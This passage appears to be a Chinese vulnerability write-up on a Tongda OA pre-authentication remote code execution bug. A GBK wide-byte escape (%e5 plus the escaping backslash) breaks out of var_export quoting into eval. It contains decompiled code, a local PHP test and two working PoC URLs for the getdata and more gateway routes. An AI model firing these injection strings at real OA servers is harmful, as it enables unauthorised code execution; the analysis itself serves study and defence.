```php
$this->dataBack = modules\appdesign\models\AppUtils::toUTF8($this->dataBack);
```

toUTF8 的代码如下：

```php
    static public function toUTF8($value, $b_force)
    {
        if (yii::$app->params["UTF8"] && !$b_force) {
            return $value;
        }

        if (modules\appdesign\models\is_array($value)) {
            if (yii::$app->params["QuickConvertCharset"]) {
                try {
                    if (!isset($value["pattern"])) {
                        $s_conv = modules\appdesign\models\iconv("GBK", "UTF-8", modules\appdesign\models\var_export($value, modules\appdesign\models\true) . ";");

                        if ($s_conv) {
                            return eval "return " . $s_conv;
                        }
                    }
                }
                catch (yii\base\Exception $e) {
                }
            }

            $arr = array();

            foreach ($value as $k => $v ) {
                $arr[self::toUTF8($k, $b_force)] = self::toUTF8($v, $b_force);
            }

            return $arr;
        }
        else {
            $s_code = modules\appdesign\models\mb_detect_encoding($value, array("ASCII", "GB2312", "GBK", "UTF-8"), modules\appdesign\models\true);

            if (modules\appdesign\models\in_array($s_code, array("CP936", "GBK", "GB2312", "EUC-CN"))) {
                return modules\appdesign\models\iconv("GBK", "UTF-8", $value);
            }
            else {
                return $value;
            }
        }
    }
```

若想达成代码执行，则需要触发之中的 eval，很幸运在默认的配置下是可以走到 eval 的，这里用了 iconv 函数将 GBK 转为 UTF8，问题也就出在这里。錦的 utf-8 编码是 0xe98ca6，它的 gbk 编码是 0xe55c。传入的%e5 与用来转义的单引号的\\，正好组成了这个汉字，从而导致我们的单引号逃逸出来，最终到达 eval 的任意代码执行。这也由于 var\_export 是用单引号包裹字符串的。下面是本地的一个测试：

```php
<?php
$value=array("page_total"=>null,"total_nums"=>null,"curnum"=>1,
"pagelimit"=>10,"open_mode"=>"0","activeTab"=>urldecode("%e5\%27.var_dump(11111));?>"),
"show_title"=>null,"show_dots"=>null,"speed"=>null,"data"=>[],"showPages"=>0,"data_sources"=>"serv_data");
$b=var_export($value, true);
var_dump($b);
$s_conv=iconv("GBK", "UTF-8",  $b.";");
if ($s_conv) {
    var_dump($s_conv);
    eval("return " . $s_conv);
}
```

结果如下：

```php
string(310) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '\\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
)"
string(312) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '錦\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
);"
int(11111)
```

可以看到成功进行了逃逸。至此通达 OA 前台 RCE 的原理也就分析完了。

#### 寻找其它的利用处

##### 其它可以利用的组件模块

在上面的源码分析，我们也发现了只要最终调用的 module 中的 get\_data 的返回含有我们可控的 activeTab，就可以在/general/appbuilder/web/portal/gateway/getdata 进行 rce。在 comtype 为 0 的情况下，寻找的是文件夹 function\_components 下面的类，其中有一个 APPZhidao 类，它的 get\_data 如下：

```php
    public function get_data($thisarray)
    {
        $json = $thisarray["attribute"];
        $activeTab = $thisarray["activeTab"];
        $curnum = $thisarray["curnum"];
        $pagelimit = $thisarray["pagelimit"];
        $timetype = $thisarray["timetype"];
        $ret = (array) modules\portal\models\function_components\json_decode($json);
        $json_data = modules\appdesign\models\AppUtils::object2Array($ret);
        $json_data = modules\appdesign\models\AppUtils::toGBK($json_data);

        if ($timetype) {
            $this_time = modules\appdesign\models\AppUtils::get_time($timetype);
            $this->beginTime = $this_time["beginTime"];
            $this->endTime = $this_time["endTime"];
        }

        $curnum = ($curnum ? $curnum : 1);
        $start = ($curnum - 1) * $pagelimit;

        if (modules\portal\models\function_components\find_id($_SESSION["LOGIN_FUNC_STR"], "185")) {
            .........
            .........
            .........
        }

        $dataBacks = array("page_total" => $page_total, "total_nums" => $total_nums, "curnum" => $curnum, "pagelimit" => $pagelimit, "activeTab" => $activeTab, "data" => $this->dataBack);
        return $dataBacks;
    }
```

由于未登录所以大部分的逻辑都是不会进去的，直接返回了含有未修改 activeTab 的数组。利用的 poc 如下所示：

```php
/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5'.var_dump(111));/*&id=1&module=Zhidao
```

其实大部分的组件都是可以利用的，除了 website\_components 下的 module，因为它的 get\_data 并没有返回可控的 activeTab。

##### 其它可以利用的路由

在 actionMore 中用到了同样的逻辑来获得 dataBack，所以这边也存在利用点，actionMore 代码如下：

```php
    public function actionMore($id, $module, $activeTab, $curnum, $pagelimit, $keyword)
    {
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $id = modules\portal\controllers\intval($id);
        $curnum = modules\portal\controllers\intval($curnum);
        $pagelimit = modules\portal\controllers\intval($pagelimit);
        $keyword = modules\portal\controllers\td_filterWords($keyword);

        if (empty($id)) {
            return modules\appdesign\models\AppUtils::error(modules\portal\controllers\_("未指定门户组件"));
        }

        $component = new modules\portal\models\PortalComponent();
        $timetype = "";

        if (!$module) {
            $component = modules\portal\models\PortalComponent::find()->where(array("id" => $id))->one();
            $module = $component->alias;
        }

        $activeTab = ($activeTab ? $activeTab : "");

        if ($module == "video") {
            $activeTab = "More";
        }

        $data = $component->GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, "", "", "", "", $keyword);
        $dataBacks = array("status" => 1, "data" => $data);
        $this->dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBacks);
        return $this->dataBack;
    }
```

但是需要注意到这边的 dataBacks 又用了一层 array 来包裹，所以在做括号闭合时，要多加一层括号，poc 如下：

```php
/general/appbuilder/web/portal/gateway/more?activeTab=%e5'.var_dump(111)));/*&id=1&module=Zhidao
```

### 参考文章

[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049)

[https://worktile.com/kb/p/27611](https://worktile.com/kb/p/27611)

[https://mp.weixin.qq.com/s/nOQuqt\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt_mO0glY-KALc1Xiw)
